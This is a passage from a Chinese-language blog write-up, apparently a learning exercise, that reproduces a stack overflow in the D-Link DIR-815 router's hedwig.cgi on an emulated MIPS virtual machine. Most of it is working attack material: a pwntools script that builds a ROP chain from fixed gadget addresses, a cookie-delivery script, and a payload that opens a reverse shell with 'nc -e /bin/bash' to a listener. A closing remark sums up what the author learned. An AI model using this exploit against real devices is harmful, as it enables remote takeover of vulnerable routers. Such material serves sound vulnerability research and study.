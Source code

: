     
    
    #!/usr/bin/python2  
    from pwn import *  
    context.endian = "little"  
    context.arch = "mips"  
    base_addr = 0x77f34000  
    system_addr_1 = 0x53200-1  
    gadget1 = 0x45988  
    gadget2 = 0x159cc  
      
    cmd = 'nc -e /bin/bash 192.168.100.254 9999'  
    padding = 'A' * 973 #1009-4*9  
    padding += p32(base_addr + system_addr_1) # s0  
    padding += p32(base_addr + gadget2)       # s1  
    padding += 'A' * 4                        # s2  
    padding += 'A' * 4                        # s3  
    padding += 'A' * 4                        # s4  
    padding += 'A' * 4                           # s5  
    padding += 'A' * 4                        # s6  
    padding += 'A' * 4                        # s7  
    padding += 'A' * 4                        # fp  
    padding += p32(base_addr + gadget1)       # ra  
    padding += 'B' * 0x10  
    padding += cmd  
      
    f = open("context",'wb')  
    f.write(padding)  
    f.close()

生成的context通过scp拷贝到mips虚拟机~目录中并且在~目录下创造debug.sh

    
    
    export CONTENT_LENGTH="100"  
    export CONTENT_TYPE="application/x-www-form-urlencoded"  
    export HTTP_COOKIE="uid=`cat context`"  
    export REQUEST_METHOD="POST"  
    export REQUEST_URI="/hedwig.cgi"  
    echo "uid=1234"|/htdocs/web/hedwig.cgi

在宿主机运行

    
    
    nc -vlp 9999

然后再mips虚拟机执行debug.sh

![](/images/D-LINK DIR-815多次溢出漏洞/1752587187801.png)

getshell !

  

  
**总结**  

  

  
  
  
  
  
  
****断断停停终于算是真正完整复现了第一个漏洞，dlink
DIR-815，依照0day路由器漏洞挖掘还有师傅们的博客，对mips架构和qemu有了进一步的了解****

  

  

  

  

